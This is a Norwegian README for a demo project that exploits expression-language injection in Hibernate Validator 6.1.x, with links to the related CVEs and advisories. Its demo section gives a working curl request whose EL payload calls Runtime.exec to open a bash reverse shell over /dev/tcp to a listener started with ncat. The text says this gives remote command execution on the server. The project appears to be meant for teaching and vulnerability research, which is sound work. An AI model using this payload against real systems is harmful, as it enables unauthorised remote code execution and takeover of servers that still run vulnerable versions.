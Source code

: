 # postnr - enkelt innbrudd i Hibernate Validator 6.1.x

## Demo ##

Tre terminaler:
1. `ncat -lkvp 31338`
2. `mvn clean package exec:java`
3. `curl -vv -G --data-urlencode 'name=${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec(["bash", "-c", "exec 5<>/dev/tcp/192.168.10.138/31338;cat <&5 | while read line; do $line 2>&5 >&5;done"].toArray("".split(","))).waitFor()}' http://localhost:8080/postnr`

Merk at IP-adressen i terminal 3 må matche IP-adressen til lokal maskin.

I terminal 1 kan man nå skrive vanlige bash-kommandore og eksekvere dem på maskinen som kjører i terminal 2.

## Kommentarer
Må bruke 6.1.x-versjonene.
6.2.x og 7.0.x legger begrensning på EL-tolkningen og defaulter til å ikke kunne kalle metoder. Se detaljer: https://in.relation.to/2021/01/06/hibernate-validator-700-62-final-released/,

CVE: https://in.relation.to/2020/05/07/hibernate-validator-615-6020-released/

### Netflix

* https://securitylab.github.com/advisories/GHSL-2020-027-netflix-conductor/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9296

### Tidlig oppdagelse

http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/

## Generert kode:

Koden er generert med
```shell
mvn archetype:generate -DarchetypeArtifactId=jersey-quickstart-grizzly2 \
-DarchetypeGroupId=org.glassfish.jersey.archetypes -DinteractiveMode=false \
-DgroupId=com.example -DartifactId=simple-service -Dpackage=com.example \
-DarchetypeVersion=2.33
```

Fra https://eclipse-ee4j.github.io/jersey.github.io/documentation/latest/getting-started.html

## Dokumentasjon

Java EE Expression Language: https://javaee.github.io/tutorial/jsf-el.html#GJDDD

Hibernate Validator: https://docs.jboss.org/hibernate/validator/6.1/reference/en-US/html_single/
